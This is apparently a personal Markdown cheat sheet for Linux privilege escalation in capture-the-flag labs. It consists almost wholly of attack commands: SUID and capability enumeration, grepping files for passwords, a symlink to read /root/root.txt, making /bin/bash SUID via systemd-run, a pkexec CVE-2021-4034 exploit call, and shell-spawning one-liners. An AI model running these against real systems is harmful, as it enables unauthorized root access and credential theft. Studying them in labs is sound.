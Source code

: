 ```yaml
---
icon: linux
---
```


# Linux Privilege Scalation

Netstat

```bash
#Option 1
netstat -l

#Ports
netstat -nltp

#More
netstat -rn
```

Look for files

```bash
#SUID
find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -or -perm -2000 2>/dev/null
#Binaries con capabilities
getcap -r / 2>/dev/null

#Extra info about bin process 
**getfacl** 

#Passwords
grep -iR "pass" *
grep password .*.* -r
#File
grep -ir cri-o . 2>/dev/null

#Look for a specific file
find / -name lcars 2>/dev/null
find / -name root.txt 2>/dev/null

#Inside a file
cat /etc/zabbix/zabbix_server.conf | grep -Ev "^#" | grep .

#Check libraries
ltrace

#Looking for 32 characters file
#hex
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
#string 32 chars
strings /dev/sdb -n 32
```

User Privileges

```bash
Check user root privileges —> sudo -l
```

Port Forwarding

```bash
ssh -L {TARGETPORT}:127.0.01:8000 [sau@](<mailto:sau@10.10.11.214>){TARGETIP}
```

Symbolic Link

```bash
ln -s /root/root.txt t.trace.db
```

TTYs

```bash
#Spawn a terminal 1
python3 -c 'import pty;pty.spawn("/bin/bash")’
```

Common Vectors

```bash
#systemd-run + bash -p
systemd-run chmod u+s /bin/bash
bash -p

#pkexec
python3 CVE-2021-4034.py
```

Flash drives

```bash
#Enumerate mounted disks
mount
#more
lsblk
```

SUDO

```bash
#Interective shell
sudo -i
#su vuln
sudo su -
```

Spawning Shells

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
python3 -c 'import pty; pty.spawn("/bin/sh")'

script -qc /bin/bash /dev/null

echo os.system('/bin/bash') 
/bin/sh -i 
perl -e 'exec "/bin/sh";' 
perl: exec "/bin/sh"; 
ruby: exec "/bin/sh" 
lua: os.execute('/bin/sh') 
exec "/bin/sh"; 
/bin/bash -i
exec "/bin/sh"                # (From within IRB) 
:!bash                        # (From within vi)
:set shell=/bin/bash:shell    # (From within vi) 
!sh                           # (From within nmap)
```
